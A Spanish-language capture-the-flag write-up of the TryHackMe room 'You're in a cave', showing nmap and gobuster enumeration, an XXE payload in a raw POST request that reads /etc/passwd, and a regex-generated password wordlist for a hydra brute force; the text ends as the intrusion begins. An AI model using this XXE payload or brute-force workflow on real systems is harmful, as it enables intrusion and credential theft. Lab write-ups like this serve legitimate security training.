

+++
author = "DarlezSec"
title = "Writeup You're in a cave Nivel Insane, Plataforma TryHackMe."
date = "2022-05-26"
description = "Sample article."
tags = [
"Writeups",
"TryHackMe",
]
categories = [
"Writeups",
"TryHackMe",
]
series = ["Themes Guide"]
aliases = ["migrate-from-jekyl"]
image = "plantilla.png"
+++
## Etapa de Reconocimiento

#### Comenzaremos escaneando puertos y versiones de los servcios que se esten ejecutando, usaremos la herramienta de nmap para hacer esto.
#### haremos un nmap -sS para el SYN Port Scan --min-rate 5000 para no no nos envue paquetes menores a 5000 por segundo -p- para escanear los 65536 puertos -A habilite la detección del sistema operativo, la detección de versiones, el escaneo de secuencias de comandos y el rastreo de rutas -O para habilitar la deteccion del sistema operativo -v para el verbose -oN para guardarlo en un archivo por default de nmap, en mi caso yo le asigne el nombre de nmap_all.txt

```bash 
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Document
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
2222/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 79:16:b1:ce:e1:16:79:b4:f1:c7:1f:09:05:b7:75:58 (RSA)
|   256 35:60:6e:3b:a8:ac:4a:6a:76:42:3d:59:13:04:90:19 (ECDSA)
|_  256 79:a6:05:ca:84:32:dc:59:b4:9b:8b:30:95:34:00:c8 (ED25519)
3333/tcp open  dec-notes?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, JavaRMI, NULL, RPCCheck, SMBProgNeg, X11Probe, kumo-server: 
|     You find yourself in a cave, what do you do?
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     You find yourself in a cave, what do you do?
|_    Nothing happens
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3333-TCP:V=7.92%I=7%D=6/18%Time=62AEA2FB%P=x86_64-pc-linux-gnu%r(NU
SF:LL,2D,"You\x20find\x20yourself\x20in\x20a\x20cave,\x20what\x20do\x20you
SF:\x20do\?\n")%r(GenericLines,3D,"You\x20find\x20yourself\x20in\x20a\x20c
SF:ave,\x20what\x20do\x20you\x20do\?\nNothing\x20happens\n")%r(LPDString,3
SF:D,"You\x20find\x20yourself\x20in\x20a\x20cave,\x20what\x20do\x20you\x20
SF:do\?\nNothing\x20happens\n")%r(JavaRMI,2D,"You\x20find\x20yourself\x20i
SF:n\x20a\x20cave,\x20what\x20do\x20you\x20do\?\n")%r(kumo-server,2D,"You\
SF:x20find\x20yourself\x20in\x20a\x20cave,\x20what\x20do\x20you\x20do\?\n"
SF:)%r(GetRequest,3D,"You\x20find\x20yourself\x20in\x20a\x20cave,\x20what\
SF:x20do\x20you\x20do\?\nNothing\x20happens\n")%r(HTTPOptions,3D,"You\x20f
SF:ind\x20yourself\x20in\x20a\x20cave,\x20what\x20do\x20you\x20do\?\nNothi
SF:ng\x20happens\n")%r(RTSPRequest,3D,"You\x20find\x20yourself\x20in\x20a\
SF:x20cave,\x20what\x20do\x20you\x20do\?\nNothing\x20happens\n")%r(RPCChec
SF:k,2D,"You\x20find\x20yourself\x20in\x20a\x20cave,\x20what\x20do\x20you\
SF:x20do\?\n")%r(DNSVersionBindReqTCP,2D,"You\x20find\x20yourself\x20in\x2
SF:0a\x20cave,\x20what\x20do\x20you\x20do\?\n")%r(DNSStatusRequestTCP,2D,"
SF:You\x20find\x20yourself\x20in\x20a\x20cave,\x20what\x20do\x20you\x20do\
SF:?\n")%r(Help,3D,"You\x20find\x20yourself\x20in\x20a\x20cave,\x20what\x2
SF:0do\x20you\x20do\?\nNothing\x20happens\n")%r(SSLSessionReq,3D,"You\x20f
SF:ind\x20yourself\x20in\x20a\x20cave,\x20what\x20do\x20you\x20do\?\nNothi
SF:ng\x20happens\n")%r(TerminalServerCookie,3D,"You\x20find\x20yourself\x2
SF:0in\x20a\x20cave,\x20what\x20do\x20you\x20do\?\nNothing\x20happens\n")%
SF:r(TLSSessionReq,3D,"You\x20find\x20yourself\x20in\x20a\x20cave,\x20what
SF:\x20do\x20you\x20do\?\nNothing\x20happens\n")%r(Kerberos,3D,"You\x20fin
SF:d\x20yourself\x20in\x20a\x20cave,\x20what\x20do\x20you\x20do\?\nNothing
SF:\x20happens\n")%r(SMBProgNeg,2D,"You\x20find\x20yourself\x20in\x20a\x20
SF:cave,\x20what\x20do\x20you\x20do\?\n")%r(X11Probe,2D,"You\x20find\x20yo
SF:urself\x20in\x20a\x20cave,\x20what\x20do\x20you\x20do\?\n")%r(FourOhFou
SF:rRequest,3D,"You\x20find\x20yourself\x20in\x20a\x20cave,\x20what\x20do\
SF:x20you\x20do\?\nNothing\x20happens\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel```

#### Vemos que hay un "Dec-notes" en anteriores ctfs he sacado banner con netcat y siempre suelo obtener pistas o hasta credenciales asi que intentemos

```bash
➜  inacave git:(main) ✗ nc 10.10.195.133 3333
You find yourself in a cave, what do you do?
```

#### Como ven nos pregunta que estamos en una cueva y que hariamos? no tiene mucho sentido.. porque no enumeramos mejor?
#### usaremos la herramienta de Gobuster para enumerar directorios 

```bash
➜  inacave gobuster dir -u http://10.10.12.10/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,js,class,sh,jar,html -t 200 2>/dev/null
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.12.10/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              js,class,sh,jar,html,php
[+] Timeout:                 10s
===============================================================
2022/06/19 00:04:07 Starting gobuster in directory enumeration mode
===============================================================
/search               (Status: 200) [Size: 197]
/action.php           (Status: 400) [Size: 0]  
/attack               (Status: 200) [Size: 181]
/lamp                 (Status: 200) [Size: 261]
/matches              (Status: 200) [Size: 249]
/walk                 (Status: 200) [Size: 161]
```

#### Recuerdan anteriormente que al intentar sacar el banner de el puerto 3333 nos pregunataba que que hariamos si estabamos en una cueva?
#### talvez estas podrian ser las respuestas... intentemos con la mas razonable que es /lamp

```bash
➜  inacave git:(main) ✗ nc 10.10.195.133 3333
You find yourself in a cave, what do you do?
/lamp
You grab a lamp, and it gives enough light to search around
Action.class
RPG.class
RPG.java
Serialize.class
commons-io-2.7.jar
run.sh
```

#### esto sigue sin tener sentido... veamos la pagina 


#### usemos burpsuite para analizar la web y ver si podemos encontrar alguna vulnerabulidad de la que nos podamos aprovechar..

## Busqueda de Vulnerabilidades 

#### Interceptamos la pagina y vemos que si mandamos una accion nos devuelve un "action=nuestra_accion" 


#### como vemos es vulnerable a XXE ML External Entity es una vulnerabilidad presente en las aplicaciones que analizan entradas XML, lo mandamos a repeater y juguemos con el XXE, una forma clasica de Intentamos mostrar el contenido del archivo /etc/passwd es de esta forma

```bash
POST /action.php HTTP/1.1

Host: 10.10.12.10

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 108

Origin: http://10.10.12.10

Connection: close

Referer: http://10.10.12.10/

Upgrade-Insecure-Requests: 1

<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```
 
#### y como ven aqui se nos despliega el /etc/passwd 



#### pero si nos vamos un poco mas abajo encontraremos estos usarios inusuales...


### como ven son 3 usuarios esqueleton, cave y door.. he intentando navegar entre directorios con el usuario cave y logre encontrar un archivo en /home/cave llamado info.txt donde parece almacenar una contraseña cifrada..

#### usaremos exrex.py para generar un diccionario y poder encontrar la contraseña de el usuario..


```bash
➜  inacave git:(main) ✗ git clone https://github.com/asciimoo/exrex.git
Clonando en 'exrex'...
remote: Enumerating objects: 488, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 488 (delta 0), reused 1 (delta 0), pack-reused 484
Recibiendo objetos: 100% (488/488), 448.34 KiB | 637.00 KiB/s, listo.
Resolviendo deltas: 100% (236/236), listo.
➜  inacave git:(main) ✗ cd exrex                                                              
➜  exrex git:(master) ls
COPYING  doc  exrex.py  MANIFEST.in  README.md  setup.py  tests.py  tox.ini
➜  exrex git:(master) python exrex.py -o passwords.txt "     ^ed[h#f]{3}[123]{1,2}xf[\!@#*]$"
➜  exrex git:(master) ✗ ls
COPYING  doc  exrex.py  MANIFEST.in  passwords.txt  README.md  setup.py  tests.py  tox.ini
```

## Etapa de Intrusion

#### Como ven ya tenemos nuestro diccionario creado ahora usaremos hydra para hacer una fuerza bruta y obtener las primeras credenciales y la primera respuesta de la pregunta 1 de esta CTF..
#### he probado con todos los usuarios que teniamos y con el unico que me llego a funcionar fue door.. 
